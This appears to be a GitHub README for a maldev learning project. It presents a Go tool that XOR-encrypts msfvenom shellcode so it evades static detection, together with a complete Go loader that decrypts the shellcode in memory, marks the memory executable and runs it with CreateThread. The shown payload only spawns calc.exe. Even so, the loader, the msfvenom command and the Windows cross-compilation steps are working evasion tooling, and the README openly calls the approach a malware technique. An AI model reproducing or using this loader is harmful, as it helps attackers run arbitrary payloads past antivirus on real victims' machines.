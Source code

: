 # 🧩 XOR Shellcode Encryptor (Go)

---


## ✨ What It Does

- 📜 Takes raw shellcode (e.g., generated from msfvenom).

- 🔑 Applies a single-byte XOR key to each byte.

- 🔒 Produces an obfuscated byte array (harder for static detection).

- 🛠️ Outputs shellcode in a Go-friendly format → directly usable in loaders.

This is a classic malware technique: keep payloads encrypted at rest and decrypt them at runtime before execution.

## ⚡ How It Works

Input → Raw binary shellcode (e.g. from Metasploit).

Key → A static XOR key (0x85 in this case).

Processing → Loops through every byte, applying cipher[i] = clear[i] ^ key.

Output → Nicely formatted Go array ([]byte{...}) ready to drop into a loader.

---

## 🔨 Usage

1️⃣ Generate Shellcode (example: spawn calc.exe 🧮)

```bash
/opt/metasploit-framework/bin/msfvenom -p windows/x64/exec CMD="calc.exe" -f raw > clean-shellcode.bin
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 276 bytes
kant@APPLEs-MacBook-Pro ~/e/shellcode> cat clean-shellcode.bin 
A?8?u?LLE9?u?XD?@$I?fA?H?P?HD?@ I??VH??A?4?H?M1?H1??A??
                       HD?@I?A??H?AXAX^YZAXAYAZH?? AR??XAYZH??W???]H?H??A?1?o??ջ?VA???????H??(<|
???u?GrojYA????calc.exe⏎    

```
## Run the encryptor
```bash
kant@APPLEs-MacBook-Pro ~/e/shellcode> ls
Xor-Enc/             clean-shellcode.bin  go.mod
kant@APPLEs-MacBook-Pro ~/e/shellcode> go build -o enc Xor-Enc/main.go 
kant@APPLEs-MacBook-Pro ~/e/shellcode> ls
Xor-Enc/             clean-shellcode.bin  enc*                 go.mod
kant@APPLEs-MacBook-Pro ~/e/shellcode> ./enc -h
Usage of ./enc:
  -file string
    	Path Of the Shellcode
kant@APPLEs-MacBook-Pro ~/e/shellcode> ./enc -file=clean-shellcode.bin 
[]byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133 }
kant@APPLEs-MacBook-Pro ~/e/shellcode> 

```

## 🌐 Why XOR?

XOR encryption is one of the oldest tricks in the book for malware authors:

🔀 Obfuscation → Avoids plain-text shellcode detection.

🕵️ Evasion → Helps bypass naive string signatures.

⚡ Fast & Lightweight → Single CPU instruction per byte.

🧩 Easy Integration → Works across any language/runtime.

Of course, advanced security tools can still catch this — but it’s a first step in maldev learning.




---
---

## Decryptor

```go
package main

import (
	"fmt"
	"unsafe"

	"golang.org/x/sys/windows"
)

func main() {
	secretKey := byte(133)

	// Put encrypted byte from prepare here
	encryptedShellcode := []byte{121, 205, 6, 97, 117, 109, 69, 133, 133, 133, 196, 212, 196, 213, 215, 212, 211, 205, 180, 87, 224, 205, 14, 215, 229, 205, 14, 215, 157, 205, 14, 215, 165, 205, 14, 247, 213, 205, 138, 50, 207, 207, 200, 180, 76, 205, 180, 69, 41, 185, 228, 249, 135, 169, 165, 196, 68, 76, 136, 196, 132, 68, 103, 104, 215, 196, 212, 205, 14, 215, 165, 14, 199, 185, 205, 132, 85, 14, 5, 13, 133, 133, 133, 205, 0, 69, 241, 226, 205, 132, 85, 213, 14, 205, 157, 193, 14, 197, 165, 204, 132, 85, 102, 211, 205, 122, 76, 196, 14, 177, 13, 205, 132, 83, 200, 180, 76, 205, 180, 69, 41, 196, 68, 76, 136, 196, 132, 68, 189, 101, 240, 116, 201, 134, 201, 161, 141, 192, 188, 84, 240, 93, 221, 193, 14, 197, 161, 204, 132, 85, 227, 196, 14, 137, 205, 193, 14, 197, 153, 204, 132, 85, 196, 14, 129, 13, 205, 132, 85, 196, 221, 196, 221, 219, 220, 223, 196, 221, 196, 220, 196, 223, 205, 6, 105, 165, 196, 215, 122, 101, 221, 196, 220, 223, 205, 14, 151, 108, 210, 122, 122, 122, 216, 205, 63, 132, 133, 133, 133, 133, 133, 133, 133, 205, 8, 8, 132, 132, 133, 133, 196, 63, 180, 14, 234, 2, 122, 80, 62, 117, 48, 39, 211, 196, 63, 35, 16, 56, 24, 122, 80, 205, 6, 65, 173, 185, 131, 249, 143, 5, 126, 101, 240, 128, 62, 194, 150, 247, 234, 239, 133, 220, 196, 12, 95, 122, 80, 230, 228, 233, 230, 171, 224, 253, 224, 133}

	var clearShellcode []byte

	for i := 0; i < len(encryptedShellcode); i++ {
		clearShellcode = append(clearShellcode, encryptedShellcode[i]^secretKey)
	}

	// Allocating memory
	fmt.Println("Allocating Memory")
	pNewlyAllocatedMem, err := windows.VirtualAlloc(uintptr(0), uintptr(len(clearShellcode)), windows.MEM_COMMIT|windows.MEM_RESERVE, windows.PAGE_READWRITE)
	if err != nil {
		fmt.Println("Failed to Allocate Memory")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Copying Shellcode
	fmt.Println("Copying Shellcode")
	destination := unsafe.Slice((*byte)(unsafe.Pointer(pNewlyAllocatedMem)), len(clearShellcode))
	copy(destination, clearShellcode)
	fmt.Println("Done ...")

	fmt.Println("Changing Protection")
	var oldprotect uint32
	windows.VirtualProtect(pNewlyAllocatedMem, uintptr(len(clearShellcode)), windows.PAGE_EXECUTE_READ, &oldprotect)
	if err != nil {
		fmt.Println("Failed to Change Protection")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	// Launching Thread
	fmt.Println("Launching thread")
	KERNEL32DLL := windows.NewLazyDLL("kernel32.dll")
	procCreateThread := KERNEL32DLL.NewProc("CreateThread")
	h, _, err := procCreateThread.Call(0, 0, pNewlyAllocatedMem, 0, 0, 0)
	if err != nil {
		fmt.Println("Failed to run thread")
		fmt.Println(err.Error())
	}
	fmt.Println("Done ...")

	windows.WaitForSingleObject(windows.Handle(h), windows.INFINITE)
}

```

---

## Cross Compilation

```bash
kant@APPLEs-MacBook-Pro ~/e/loader> GOOS=windows GOARCH=amd64 go build -a -ldflags="-s -w" -trimpath exp/main.go
kant@APPLEs-MacBook-Pro ~/e/loader> ls
exp/      go.mod    go.sum    main.exe*
```

---
